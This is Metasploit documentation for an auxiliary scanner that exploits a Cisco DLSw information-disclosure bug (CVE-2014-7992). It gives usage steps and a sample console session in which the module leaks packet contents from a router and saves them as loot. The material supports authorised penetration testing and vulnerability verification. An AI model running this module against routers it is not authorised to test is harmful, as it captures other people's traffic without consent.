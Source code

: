 ## Vulnerable Application

This module implements the DLSw information disclosure retrieval. There is a bug in Cisco's DLSw implementation affecting 12.x and 15.x trains that allows an unauthenticated remote attacker to retrieve the partial contents of packets traversing a Cisco router with DLSw configured and active.

## Verification Steps

1. Start msfconsole
2. Do: `use modules/auxiliary/scanner/dlsw/dlsw_leak_capture`
3. Set: `RHOSTS [ip]`
4. Do: `run`

## Scenarios

### IOS version 12.4(8) and Kali Linux 2019.3

  ```
  msf > use modules/auxiliary/scanner/dlsw/dlsw_leak_capture
  msf auxiliary(scanner/dlsw/dlsw_leak_capture) > set RHOSTS 192.168.0.1
    RHOSTS => 192.168.0.1
  msf auxiliary(scanner/dlsw/dlsw_leak_capture) > run
    [*] 192.168.0.1:2067      - Checking for DLSw information disclosure (CVE-2014-7992)
    [+] 192.168.0.1:2067      - Vulnerable to DLSw information disclosure; leaked 72 bytes
    [*] 192.168.0.1:2067      - DLSw leaked data stored in /root/.msf4/loot/20191124231804_default_192.168.0.1_dlsw.packet.cont_518857.bin
    [*] 192.168.0.1:2067      - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

